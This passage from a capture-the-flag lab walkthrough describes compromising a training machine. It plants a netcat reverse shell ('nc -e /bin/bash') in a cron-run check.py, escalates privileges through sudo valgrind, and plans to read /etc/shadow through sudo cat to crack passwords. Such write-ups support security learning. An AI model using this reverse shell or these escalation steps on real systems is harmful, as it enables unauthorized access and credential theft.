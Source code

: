 ![image](https://user-images.githubusercontent.com/76552238/159289556-69240805-4db9-4858-b67f-2d06ca16eb22.png)

Unfortunately there was no useful information, but we do have access to the directory 'mother' where the 'check.py' script that is running by the crontab should be at.
 
![image](https://user-images.githubusercontent.com/76552238/159289735-e71baeeb-9bd7-4903-a263-8362cb1a3106.png)

Doesn't seem there like there is any script here, so we can make one of our own. I found this tool on github named rsg (***https://github.com/mthbernardes/rsg***) that generates a python reverse shell script we could upload to the remote machine.
 
    Remote Machine:

    $ echo 'import os
    os.system("nc -e /bin/bash 10.0.0.27 5555")' > check.py

>

    Local Machine:

    $ nc -lvp 5555

![image](https://user-images.githubusercontent.com/76552238/159298768-9bed362e-55bd-4f79-bab3-d94201e38992.png)

    $ sudo -l

    Matching Defaults entries for mother on family:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User mother may run the following commands on family:
        (baby) NOPASSWD: /usr/bin/valgrind

The user 'mother' can run the command ***/usr/bin/valgrind*** as root without a password but only as the "baby" user. The command 'valgrind' is a debugging and profiling tool, we can open a new shell with the command like so '/usr/bin/valgrind /bin/bash'. 

    $ sudo -u baby /usr/bin/valgrind /bin/bash

![image](https://user-images.githubusercontent.com/76552238/159299038-7623bd05-c832-4a7f-859f-e8c2ecd2d2c0.png)

Going to the directory ***/home/baby*** there is a text file.

### ***/home/baby/user.txt:***
    Chilatyfile

We got the first flag. Now we need to get root and the final flag.

    $ sudo -l

    Matching Defaults entries for baby on family:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User baby may run the following commands on family:
        (ALL : ALL) NOPASSWD: /usr/bin/cat

We can run the command 'cat' as root, this means we can read files with root permissions like the /etc/shadow file and crack the password for the 'root' and 'baby' users.
